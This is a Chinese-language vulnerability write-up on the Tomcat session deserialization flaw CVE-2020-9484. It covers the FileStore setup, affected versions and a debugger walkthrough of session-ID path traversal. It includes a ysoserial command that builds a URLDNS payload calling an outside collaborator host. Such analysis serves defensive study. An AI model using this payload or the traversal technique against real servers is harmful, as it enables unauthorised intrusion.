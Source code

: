（CVE-2020-9484）Tomcat session反序列化漏洞
===========================================

一、漏洞简介
------------

对
于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载
时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为
Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实
现可序列化接口（java.io.Serializable）的原因了。当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些
HttpSession对象从内存中转移到文件系统或数据库中，在需要访问
HttpSession信息时再把它们加载到内存中。

### 实现

要完成session持久化，存放在session里的对象必须要实现`java.io.Serializable`
接口。Session的持久化是由`Session Manager`来管理的。Tomcat提供了两个实现类：

-   **org.apache.catalina.session.StandardManager** (默认)
-   **org.apache.catalina.session.PersistentManager**

### 配置

存储在本地文件中需要配置conf目录里的**context.xml**文件在`节点下添加如下`节点：

    <Manager className="org.apache.catalina.session.PersistentManager" 
        debug="0"
        saveOnRestart="false"
        maxActiveSession="-1"
        minIdleSwap="-1"
        maxIdleSwap="-1"
        maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="../session" />
    </Manager>

二、漏洞影响
------------

Tomca \<= 9.0.34Tomca \<= 8.5.54Tomca \<= 7.0.103

三、复现过程
------------

### 漏洞分析

一般文件存储session的问题就是sessionID没有做过滤，允许跳出路径，让session文件变成攻击者控制的文件，导致漏洞产生，这次的session漏洞也不例外

我们选择了session的存储为FileStore，所以在FileStore类的load方法处设置断点

在servlet中创建一个很简单的java session

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            Properties properties = new Properties();
            properties.setProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK", "true");
            System.setProperties(properties);
            String res = System.getProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK");
            System.out.println(res);
            HttpSession httpSession = req.getSession();
            httpSession.setAttribute("username", "admin");
            resp.getWriter().println("success");
        }

现在我们的漏洞环境就搭建好了，设置tomcat启动即可

### 设置sessionid

我们设置sessionid存在目录穿越符号

![1.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId28.png)

刷新页面，被断点拦截

![2.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId29.png)

第一步先是获取到session文件

![3.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId30.png)

可以看到，我们的sessionID后面会添加一个.session后缀，这也就导致我们需要一个可控文件名的文件上传，这一点就比较难以满足

但是可以看出来，不需要准确知道确定的相对录路径，一直跳到根目录即可，但是因为sessionid有长度限制的，所以还是有一点限制

### 反序列化

这个时候，我们可以跳到任意目录了，我们在tmp下面生成了URLDNS的ysoserial，来做dns查询

    java -jar ysoserial.jar URLDNS "http://lsh9lo0bpipjrb0kp98cn4khb8h15q.burpcollaborator.net" > /tmp/test.session

![4.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId32.png)

只要这个session文件存在，就会将文件内容读取出来，并且创建ObjectInputStream，最后调用了readObjectData

熟悉java反序列化的话这个地方一眼就能看出来有反序列化的问题

我们继续进入readObjectData

![5.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId33.png)

调用readObject，触发反序列化

### 利用截图

使用URLDNS，成功获取到DNS请求

![6.png](./resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId35.png)

漏洞利用条件较为苛刻

参考链接
--------

> https://xz.aliyun.com/t/7803\#toc-1
